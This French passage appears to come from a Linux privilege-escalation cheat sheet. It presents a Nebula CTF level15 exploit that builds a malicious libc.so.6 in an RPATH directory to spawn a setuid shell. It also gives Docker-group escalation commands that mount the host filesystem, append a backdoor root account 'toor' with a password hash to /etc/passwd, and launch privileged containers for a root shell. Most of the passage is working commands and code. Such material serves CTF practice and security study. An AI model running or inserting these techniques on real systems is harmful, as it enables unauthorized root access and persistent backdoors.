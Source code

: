 En copiant la lib dans `/var/tmp/flag15/`, elle sera utilisée ici par le programme comme spécifié dans la variable `RPATH`.

```powershell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

On crée ensuite une lib malveillante dans `/var/tmp` avec `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```powershell
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```

## Groupes

### Docker

On le système de fichiers dans un conteneur bash, nous autorisant à éditer `/etc/passwd` en tant que root, on ajoute ensuite le compte backdoor `toor:password`.

```bash
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

Presque similaire mais vous verrez aussi des processus lancés sur l'hôte et connectés sur les mêmes NICs.

```powershell
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

Ou utilisez l'image docker suivante de [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) pour faire spawn un shell root.

```powershell
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```

